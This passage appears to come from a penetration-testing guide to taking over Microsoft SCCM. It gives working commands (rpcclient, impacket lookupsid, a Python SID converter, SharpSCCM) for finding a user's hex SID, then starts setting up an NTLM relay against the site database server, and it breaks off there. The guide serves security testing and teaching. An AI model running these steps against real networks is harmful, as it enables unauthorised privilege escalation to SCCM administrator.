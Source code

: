 ##### Step 1: retrieve the controlled user SID

The first step consists in retrieving the hexadecimal format of the user's SID (Security IDentifier) to grant "Full Administrator SCCM role" to, on the site database server. The hex formatted SID is needed in a part below: [#4.-obtain-an-sql-console](index#4.-obtain-an-sql-console).

::: tabs

=== UNIX-like

From UNIX-like systems, the Samba utility named [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can be used for this purpose.

```bash
rpcclient -c "lookupnames USER" $TARGET_IP
```

Impacket's [lookupsid](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) (Python) can also be used to retrieve the user's SID.

```bash
lookupsid.py "$DOMAIN"/"$USERNAME":"$PASSWORD"@"$TARGET_IP_OR_NAME"
```

The returned SID value is in canonical format and not hexadecimal, [impacket](https://github.com/fortra/impacket/blob/34229464dab9ed4e432fdde56d14a916baaac4db/impacket/ldap/ldaptypes.py#L48) can be used to convert it as follows.


```python
from impacket.ldap import ldaptypes
sid=ldaptypes.LDAP_SID()
sid.fromCanonical('sid_value')
print('0x' + ''.join('{:02X}'.format(b) for b in sid.getData()))
```



=== Windows

From Windows systems, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) can be used for this purpose.

```
# this should be run on the windows SCCM client as the user (no need for admin privileges here)
SharpSCCM.exe get user-sid
```

:::


##### Step 2: setup NTLM relay server

The target of the [NTLM relay attack](../ntlm/relay) must be set to the site database server, either on the MS-SQL (port `1433/tcp`), or SMB service (port `445/tcp`) if the relayed user has admin privileges on the target. The rest of this page is focusing on relaying the authentication on the MS-SQL service.

::: tabs

=== UNIX-like
